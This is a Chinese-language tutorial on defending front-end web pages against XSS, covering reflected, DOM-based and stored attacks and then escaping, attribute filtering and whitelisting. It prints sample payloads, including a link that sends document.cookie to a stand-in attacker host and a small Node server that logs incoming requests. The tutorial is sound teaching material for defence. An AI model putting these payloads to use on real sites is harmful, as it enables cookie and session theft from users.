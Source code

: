 # 前端安全之防御XSS跨站脚本攻击
最近经常被人问到前端安全问题，虽说这方面作为前端不常遇到，但一直被人纠着问就很烦，怒学之。
安全问题通常有XSS跨站脚本攻击和CSRF跨站请求伪造，将分为两篇文章介绍。本文先学习第一种--XSS跨站脚本攻击


## 受攻击原因
页面被注入了恶意代码，当用户访问网页时，嵌入的代码将被执行，从而受到恶意攻击

## xss攻击分类
### 反射型
反射型主要来自用户的主动请求一个带攻击的链接<br>
当用户点击带有xss攻击的链接 `http://test?query=<script>alert('xss')</script>` 时，细分为两种：

* 服务端获取url参数name，并将name解析到html中返回给客户端<br>伪代码: 返回带有xss攻击语句的html片段
```html
     <html>
       <div>...</div>
       <script>alert('xss')</script>
     </html>
```
* 服务端没有解析url参数，返回正常的页面。但客户端在js执行过程中，获取了url参数，并将其写入到页面中。该方法也称为**DOM型xss攻击**<br>
伪代码:
```js
     var query = url.query
     document.body.innerHTML(query)
     $('div').html(query)
```
上述两种都将执行注入的脚本

### 存储型
存储型就是将xss攻击代码储存到数据库中，当用户去下次在客户端请求数据时，获取到xss攻击代码。<br/>典型的场景是在提交评论的时候，攻击者将`<script>alert('xss')</script>`提交到服务器。当用户在获取评论数据的时候，服务端会返回这段代码, 从而收到攻击


## 常见的xss攻击场景
* 注入了a标签，href带有xss脚本 
  
  ```html
  (1)
     `<a href="javascript:alert(xss)" ></a>`
  (2)
     var xsshref = 'http://xss.com?' + document.cookie // 攻击者的网站
     <a href=xsshref></a>
  ```
  
* html标签, 内联事件带有xss脚本
  ```html
  1)<div onclick="alert(xss1)" onmouseover="alert(xss2)"><div>
  2)<img src='xss' onerror="alert(xss)" />
  ```

* img, link标签请求攻击者的资源

 ```js
  // 攻击者 nodejs
  const http = require('http')
  
  http.createServer(function (request, response) {
    console.log(request) // 在这里可以获取img的请求
    response.writeHead(200, {'Content-Type': 'text/plain'});
    response.end('');
  }).listen(8080);
  
  // 受攻击者网站
  <img src='http://xss:8080'/>
  <link href="http://localhost:8080" rel="stylesheet">
 ```

* 带有可执行脚本的style标签或者eval语句

  ```html
  (1)
  <style>
    alert('xss')
  </style>
  (2)
  <div id='xss'>alert('xss')</div>
  document.addEventListener('click', function(event) {
  	eval(event.target.innerHTML)
  })
  ```



## 如何防御

xss防御最好还是需要后端进行，尤其是存储型xss攻击。但通过观察xss攻击原理，我们可以发现，前端还是可以有所作为
* 对用户的数据进行转义编码，转化为纯文本而不是代码

* 尽量避免使用`innerHTML`, `document.write()`等方法，使用时需要对插入的内容进行判断，避免插入危险的html结构

* 过滤危险的DOM节点,  如 img，style

* 过滤危险的节点属性，如 on*, href, src，尽量避免用内联事件，用`addEventListener`代替
  ```js
  // 过滤内联事件 // 在addEventListener 中过滤
  <div onclick="alert(xss)" id='xss'>xss</div>
  
  var attributes = document.getElementById('xss').attributes
  for (attr of attributes) {
      if(/^on./.test(attr.name)) {  // 拦截on*事件
        filter(attr)
      }
    }
  }
  function filter(attr) {
    document.addEventListener(attr.name.substr(2), function(e) {
      attr.name = null  //删除内联事件
      myFunc() // 改写事件
    }, true);
  }
  
  ```
  
* 对`javascript:`，`eval`这类关键字或者语句建立黑名单，对其进行过滤删选
  ```js
  // 如果是a标签且存在'javascript:', 则改写href属性
  if(element.tagName === 'A' && element.protocol === 'javascript:') {
    elem.href = 'javascript:void(0)';
  }
  ```
  
* 对资源文件建立白名单域名，如img的src属性值，href值只能为白名单下的资源



## 总结

由于前端源码通常暴露在外部，理论上无论前端如何防御，攻击者都能通过分析代码找到漏洞，但我们前端如果能加上一道防御，大大增加攻击者的攻击难度，也是为安全上了一道锁。